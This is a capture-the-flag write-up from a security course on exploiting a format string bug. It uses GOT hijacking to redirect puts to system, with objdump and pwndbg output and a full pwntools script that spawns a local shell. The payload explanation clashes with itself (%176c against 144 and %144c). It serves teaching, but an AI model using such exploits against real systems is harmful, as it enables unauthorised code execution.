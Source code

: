 ```yaml
---
title: Simple PWN - 0x11(format string bug)
tags: [CTF, PWN, eductf]

category: "Security/Course/NTU CS/PWN"
---
```


# Simple PWN - 0x11(format string bug)
###### tags: `CTF` `PWN` `eductf`


## format string bug background
[printf %n](https://www.geeksforgeeks.org/g-fact-31/)
![](https://media.geeksforgeeks.org/wp-content/cdn-uploads/20191009172738/n-in-printf.jpg)

## Original Code
```cpp!=
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>

int main()
{
    setvbuf(stdin, 0, _IONBF, 0);
    setvbuf(stdout, 0, _IONBF, 0);

    char fmt[0x20];

    system("echo 'Give me fmt: '");
    read(0, fmt, 0x20);
    printf(fmt);

    system("echo 'Give me string: '");
    read(0, fmt, 0x20);
    puts(fmt);

    return 0;
}
```
```bash!
$ gcc -o fmt fmt.c -no-pie -fno-stack-protector -z norelro -zexecstack
```
* In this problem, we can consider to use `format string bug` to achieve `GOT hijacking` without buffer overflow.
* **The main idea is totally the same as [GOT hijacking lecture](https://hackmd.io/@UHzVfhAITliOM3mFSo6mfA/S1BBpSR5s)**
* Thus, we can observe which function can be overlapped by `system plt` → <font color="FF0000">**`puts function`**</font>
    * Because...
    `puts` just needs one argument like `system` function, but how about `printf`?
    Unfortunately, it appeared before 2nd read function, because 2nd `read` needs to store the argument for `system` function such as `sh\x00`.
## Exploit - GOT hijacking + format string bug
**Our goal is hijack `puts GOT` to `system plt`**
1. Find `puts GOT` address and `system plt` → <font color="FF0000">`0x403318` and `0x401090`</font>
    ```bash
    $ objdump -d fmt
    ...
    0000000000401090 <system@plt>:
      401090:       f3 0f 1e fa             endbr64
      401094:       f2 ff 25 85 22 00 00    bnd jmp *0x2285(%rip) # 403320 <system@GLIBC_2.2.5>
      40109b:       0f 1f 44 00 00          nopl   0x0(%rax,%rax,1)
    ...
    $ gdb fmt
    ...
    pwndbg> attach <PID>
    pwndbg> got

    GOT protection: No RELRO | GOT functions: 5

    [0x403318] puts@GLIBC_2.2.5 -> 0x401030 ◂— endbr64
    [0x403320] system@GLIBC_2.2.5 -> 0x7f87de291d60 (system) ◂— endbr64
    [0x403328] printf@GLIBC_2.2.5 -> 0x401050 ◂— endbr64
    [0x403330] read@GLIBC_2.2.5 -> 0x7f87de355980 (read) ◂— endbr64
    [0x403338] setvbuf@GLIBC_2.2.5 -> 0x7f87de2c2670 (setvbuf) ◂— endbr64
    ...
    ```
2. Construct format string - try and error
    ```python!
    r.sendafter("Give me fmt: ", b"%176c%8$hhn" + b"aaaaa" + p64(puts_got))
    ```
    **從結果來看比較清楚**
    ![](https://imgur.com/G4YPrXO.png)

    * Parse `b"%176c%8$hhn" + b"aaaaa" + p64(puts_got)`
Our goal is overlap `puts GOT`, so we put address of puts_got at final position, that is `[%rsp + 16]`(format string: `$8`)
We want to modify `0x401030` to `0x401090`, so we just modify only **1 bytes**(format string: `%hhn`). In addition, <font color="FF0000">`0x90` is 144</font> as decimal.(format string: `%176c`)
Combine all format sting: `%176c%8$hhn` and other space can pad trash bytes

3. Pass the command to `system` function - `sh\x00` to open shell
    ```python!
    r.sendafter("Give me string: ", "sh\x00")
    ```
4. Finally, we got shell!!!
    ![](https://imgur.com/Zh5jE4N.png)
    
* Whole exploit
    ```python!
    from pwn import *

    context.arch = 'amd64'

    r = process("./fmt")
    raw_input()

    puts_got = 0x403318
    system_plt = 0x401090

    r.sendafter("Give me fmt: ", b"%144c%8$hhn" + b"aaaaa" + p64(puts_got))
    r.sendafter("Give me string: ", "sh\x00")

    r.interactive()
    ```